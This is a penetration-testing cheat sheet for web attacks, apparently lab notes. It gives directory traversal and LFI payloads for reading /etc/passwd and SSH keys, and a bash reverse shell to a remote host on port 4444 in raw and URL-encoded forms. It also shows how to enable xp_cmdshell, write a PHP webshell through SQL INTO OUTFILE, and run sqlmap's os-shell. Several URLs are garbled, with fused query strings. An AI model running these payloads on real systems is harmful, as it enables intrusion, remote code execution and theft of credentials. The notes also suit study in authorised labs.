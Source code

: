 # Web&#x20;

### Web Attacks

💡 Cross-platform PHP reverse shell: [https://github.com/ivan-sincek/php-reverse-](https://github.com/ivan-sincek/php-reverse-)

#### Directory Traversal

```bash
cat /etc/passwd  #displaying content through absolute path
cat ../../../etc/passwd  #relative path
```

* if the pwd is `/var/log/` then in order to view the `/etc/passwd` it will be like this

```bash
cat ../../etc/passwd
```

* In web it should be exploited like this, find a parameters and test it out

```
<http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd?page=../../../etc/passwd>
#check for id_rsa, id_ecdsa
```

* If the output is not getting formatted properly then,

```bash
curl <http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/pas><br>•?page=../../../etc/passwd
```

* For windows

```
<http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/instal><br>•?page=../../../windows/system32/drivers/etc/hosts
```

**URL Encoding**

Sometimes it doesn't show if we try path, then we need to encode them

```bash
curl <http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd><br>•?page=..%2F..%2F..%2Fetc%2Fpasswd
```

**Wordpress**

Simple exploit: [https://github.com/leonjza/wordpress-shell](https://github.com/leonjza/wordpress-shell) Local

#### Local File Inclusion

* Main difference between Directory traversal and this attack is, here we're able to execute commands remotely.

At first we need to check if we can include log files

```
<http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.lo><br>#Reverse?page=/var/log/apache2/access.log&cmd=whoami
```

If RCE via LFI is possible then we can put reverse shells

```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```

We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22  #encoded
```

**PHP wrapper**

```bash
curl "<http://mountaindesserts.com/meteor/index.php?page=data://text/plain?page=php://filter/convert.base64-encode/resource=index.php>"
```

#### SQL Injection

```bash
impacket-mssqlclient <Administrator:Lab123@192.168.50.18> -windows-auth  #To login
```

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#Now we can run commands
EXECUTE xp_cmdshell 'whoami';
```

Sometimes we may not have direct access to convert it to RCE from web, then follow below

```sql
UNION SELECT "<?php system($_GET['cmd']); ?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php"
```

Now we can exploit it

```
<http://192.168.45.285/tmp/webshell.php?cmd=id>  #Command execution
```

**SQLMap - Automated Code execution**

```bash
sqlmap -u <http://192.168.50.19/blindsqli.php?user=1> -p user  #Testing on parameter names "user"
sqlmap -u <http://192.168.50.19/blindsqli.php?user=1> -p user --dump  #Dumping database

#OS Shell
```

* Obtain the Post request from Burp suite and save it to post.txt

```bash
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"  #/var/www/html/tmp is the writable location on web
```
